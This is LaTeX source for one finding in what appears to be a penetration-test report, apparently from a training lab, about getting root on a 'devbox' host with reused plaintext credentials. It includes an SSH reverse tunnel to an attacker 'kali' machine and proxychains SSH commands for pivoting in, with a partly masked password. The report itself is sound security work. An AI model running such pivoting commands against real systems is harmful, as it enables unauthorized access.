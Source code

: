 \section{Attack Narrative}
./ex0e0/report.tex

\section{Technical Report}


  \subsection{Finding: \emph{Devbox Root Access}}
  
	\subsubsection*{Severity Rating}
    Risk: Medium \\
	\cvss(L,L,H,R,U,H,H,L,6.1)
		
  	\subsubsection*{Vulnerability Description}
    Root access to any of the host servers will allow the attacker to potentially shut down services and gain access to other sensitive information. A way into
    devbox was found using previously found credentials from user l.strauss.

  	\subsubsection*{Confirmation method}
    To gain access to devbox, you must first sign in as admin user pr0b3 on costumes and then ssh back to kali as follows.
 \begin{verbatim}
ssh -R 1081 kali@172.24.0.10
  \end{verbatim}
    Once the connection is established, from kali we can run the following command
\begin{verbatim}
proxychains ssh l.strauss@devbox.artstailor.com
password: Co...El
\end{verbatim}
    The real password is concealed, however this allowed us to gain root access to devbox.

	\subsubsection*{Mitigation or Resolution Strategy}
    The best mitigation for this would be to have l.strauss change his credentials and avoid storing all passwords in plaintext at all costs. Easily discoverable passwords
    led to this attack to begin with.

